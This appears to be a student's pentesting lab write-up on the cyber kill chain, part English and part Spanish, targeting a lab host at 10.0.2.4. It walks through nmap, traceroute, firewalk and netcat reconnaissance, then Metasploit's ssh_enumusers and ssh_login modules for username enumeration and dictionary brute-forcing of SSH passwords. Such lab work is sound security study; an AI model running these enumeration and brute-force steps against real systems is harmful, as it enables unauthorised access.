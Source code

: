 ```yaml
---
title: KILL CHAIN | C03 | T03 | S04
date: 2024-10-03 00:00:00 -05:00
categories: [reconnaisance, kill chain, pentesting]
tags: [SSH, Commands]  # TAG names should always be lowercase
---
```

# KILL CHAIN ​​PARTS

The "Kill Chain" is a concept used in cybersecurity and military **strategy that outlines the phases of an attack and how they can be disrupted**. It consists of several parts, each representing a stage in the attack process. Here are the main phases:
1. Reconnaissance
2. Weaponization
3. Delivery
4. Exploitation
5. Installation
6. Command & Control
7. Actions on Object (Post-exploitation)

---

## 1. **Reconnaissance (Reconocimiento)**
- Gathering information about the target.
- Identifying vulnerabilities and entry points.

    - **IP : 10.0.2.4**
    ![figura1](/assets/images/ip_sudo_sv_p.png)



    1. The command  **`nmap`** perform a ping scan on the subnet **`10.0.2.4/24`**. It identifies which hosts are up without scanning ports.
        ```bash
        sudo nmap -sn 10.0.2.4/24
        ```    
        ![figura1](/assets/images/sudo_nmap_sn.png)

    2. Scans the host `10.0.2.4` for specific ports (21, 22, 80, and 443) to check which services are running on those ports, such as FTP, SSH, HTTP, and HTTPS.
        ```bash
        sudo nmap -p 21,22,80,443 10.0.2.4
        ```    
        ![figura1](/assets/images/sudo_nmap_p.png)

    3. This command traces the route packets take to reach the host `10.0.2.4`, showing each hop along the way, even with a firewall active. It helps identify network paths and potential issues.
        ```bash
        sudo traceroute 10.0.2.4
        ```    
        ![figura1](/assets/images/sudo_traceroute.png)

    4. Similar to the previous command, but it uses TCP (with `-T`) and specifies port 22 (SSH). This can be useful if the target host blocks ICMP packets used in standard traceroutes.
        ```bash
        sudo traceroute -T -p 22 10.0.2.4
        ```    
        ![figura1](/assets/images/sudo_traceroute_T_p.png)

    5. This command runs `nmap` with the Firewalk script, which is designed for advanced network path analysis, along with a traceroute to `10.0.2.4`. It helps in discovering firewall rules.
        ```bash
        sudo nmap --script=firewalk --traceroute 10.0.2.4
        ```    
        ![figura1](/assets/images/sudo_nmpa_script.png)

    6. This command scans `10.0.2.4` specifically on port 22 (SSH) and attempts to determine the version of the service running on that port.
        ```bash
        sudo nmap -sV -p 22 10.0.2.4
        ```    
        ![figura1](/assets/images/sudo_sv_p.png)

    7. This uses `netcat` (nc) to attempt a connection to `10.0.2.4` on port 22. The `-n` flag prevents DNS resolution, and `-v` enables verbose output, which helps in debugging the connection.
        ```bash
        nc -nv 10.0.2.4 22
        ```    
        ![figura1](/assets/images/nc_nv.png)

    8. This command attempts to SSH into the host `10.0.2.` using the username `vagrant`. It establishes a secure shell session if the credentials are correct.
        ```bash
        ssh vagrant@10.0.2.4
        ```
        ![figura1](/assets/images/ssh_vagrant.png)

## 4. **Exploitation (Explotación)**
- Executing malicious code on the target's system.
- Exploiting vulnerabilities to gain access.

    1. This command starts the Metasploit Framework console in quiet mode (`-q`), which suppresses the startup messages. Metasploit is a powerful tool for penetration testing.
        
        ```bash
        msfconsole -q
        ```    
    2. Once inside the Metasploit console, this command searches for modules related to SSH. It can help identify exploits or auxiliary modules that target SSH services.

        ```bash
        search ssh
        ```    

        ![figura1](/assets/images/msfconsole_q.png)

## **TASKS**
### **1. Diccionarios (usuarios, passwords)**
- Se crea archivos de texto para usuarios (Users.txt) y contraseñas (Passwords.txt) en Kali GNU/Linux
![figura1](/assets/images/textos.png)

### **2. Averiguar cuál de las tools de metasploit (relacionados con ssh) sirve para encontrar todos los usuarios configurados en el servicio SSH del target.**
1. Open your terminal and start the Metasploit console:
    ```bash
    msfconsole -q
    ```    
2. Once Metasploit is running, search for the ssh_enumusers module:
    ```bash
    search ssh_enumusers
    ```    
3. Select the ssh_enumusers module from the search results:
    ```bash
    use auxiliary/scanner/ssh/ssh_enumusers
    ```  
4.  Before executing the module, you can review its details and available options by using:
    ```bash
        info
    ```     
    ![figura1](/assets/images/ssh_enumusers.png)

4.  To see the configurable options for the module, use:
    ```bash
        options
    ```     
    ![figura1](/assets/images/ssh_enu_options.png)

5. Set the target host and any other necessary options. For example:
    ```bash
        set RHOSTS <target_ip>
        set USER_FILE <path_to_user_list>
    ```   
    ```bash
        set RHOSTS 10.0.2.4
        set USER_FILE /home/user/Desktop/Users.txt
    ```   

6.  Execute the module to start enumerating users:
    ```bash
        run
    ```   
    ![figura1](/assets/images/ssh_enu_comands.png)

### **3. Averiguar cuál de las tools me permite encontrar los passwords de esos usuarios.**

1. **Load the module:**
   ```bash
   use auxiliary/scanner/ssh/ssh_login
   ```

3. **Set the target:**
   ```bash
   set RHOSTS <Target_IP>
   ```   
   ```bash
   set RHOSTS 10.0.2.4
   ```

4. **Set the dictionary files:**
   ```bash
   set USER_FILE /path/to/user_file.txt
   set PASSWORD_FILE /path/to/password_file.txt
   ```
    ```bash
    set RHOSTS 10.0.2.4
    set USER_FILE /home/user/Desktop/Users.txt
    set PASSWORD_FILE /home/user/Desktop/Passwords.txt
    ```   
5. **Run the scan:**
   ```bash
   run
   ```

![figura1](/assets/images/ssh_login.png)
![figura1](/assets/images/ssh_login_2_.png)




